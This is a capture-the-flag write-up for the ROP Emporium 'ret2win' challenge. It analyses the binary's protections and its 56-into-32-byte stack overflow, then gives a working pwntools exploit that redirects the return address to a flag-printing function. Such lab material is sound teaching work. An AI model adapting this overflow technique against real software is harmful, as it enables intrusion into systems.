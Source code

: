 Ret2win is the first challenge from Rop Emporioum series.
We have to overwrite return address and call the win function to obtain the flag!


# Analyzing
Lets start with the File command.
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Nice! we have a 64 bit not stripped executable. \
Lets continue by checking the protections of the binary running checksec
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   69 Symbols        No    0                               3ret2win
```
1. Stack cookie Not found so its easy to overwrite return address
2. NX enabled so stack is no long executable
3. No pie (hardcoded base address)

Lets open it in in ida. 
```c
char s[32]; // [rsp+0h] [rbp-20h] BYREF

memset(s, 0, sizeof(s));
puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
puts("What could possibly go wrong?");
puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
printf("> ");
read(0, s, 56uLL);
return puts("Thank you!");
```

Seems really straightforward the path that we need to follow. \
Binary reads 56 bytes of data and stores them on an array of length 32.Thats a buffer overflow!
Searching a bit more we can detect a function `ret2win` thats prints out the flag.
```c
puts("Well done! Here's your flag:");
return system("/bin/cat flag.txt");
```
In summary, we can overwrite our return address to win function and grab the flag!

# Exploiting
Writing our exploit
```python
from pwn import *

# Set up pwntools for the correct architecture. See `context.binary/arch/bits/endianness` for more
context.binary = elfexe = ELF('./ret2win') #FIXME

target = process([elfexe.path])

payload  = b"A"* 40      # Fill the buffer and overwrite base address 
payload += p64(0x400770) # ret for alignment
payload += p64(0x400756) # Jump to ret2win function

target.sendafter("> ", payload) 
target.interactive()
    
```
We manage to get the flag!
``
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
``
